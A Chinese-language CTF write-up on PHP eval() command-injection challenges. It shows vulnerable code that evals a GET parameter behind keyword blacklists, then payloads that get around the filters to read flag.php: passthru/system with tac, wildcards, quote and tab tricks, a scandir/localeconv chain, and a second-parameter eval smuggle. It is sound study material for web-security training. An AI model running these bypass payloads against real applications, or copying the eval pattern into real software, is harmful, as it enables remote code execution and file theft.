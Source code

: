 - **双引号**：用于需要解析变量或转义字符的字符串。
- **单引号**：用于纯文本字符串，不需要解析任何变量或转义字符。

### 示范-WP

#### 第一题

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
```

ban了"flag"这个字符利用匹配

```Python
?c=system("tac fl*");
?c=system("tac fla''g.php");
?c=system("tac fla``g.php");
```

#### 第二题

相比于上一题多ban了`php` , `system`

```Plain
?c=passthru("tac fl*");
```

#### 第三题

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

又是多ban了几个东西

```Python
#常规操作
?c=passthru("tac%09fla*");
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
?c=eval($_GET[a]);&a=system('tac flag.php');#这里只是过滤了c参数里面的内容，利用这个东西可以实现绕过
```

> 简单的解释一下这个`show_source(next(array_reverse(scandir(pos(localeconv())))));`

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YjVjMjAyMDdhMjY1MzYxNDRjMDk3NTNkODhhNmE4NThfSHRndUFuVElHZEhZdGZRSndES3owVElDOFdpcjNyNlNfVG9rZW46VWN5SGI2eENhb1VzQ294SThRU2NsaFJibkZjXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=OWU0YTc1ZGQzMWU2YjM5MmQwNDFlOWY0M2Q2YjI3YzJfNzVrTVlCTlZjWE83Vko0MFVQcHNWNVdEajR3MldUNzlfVG9rZW46QXdwUGJmZEpMb2NyTjF4NWZPQWNPQ3VTbkpiXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

`localeconv()` 返回当前地区设置的一个关联数组。

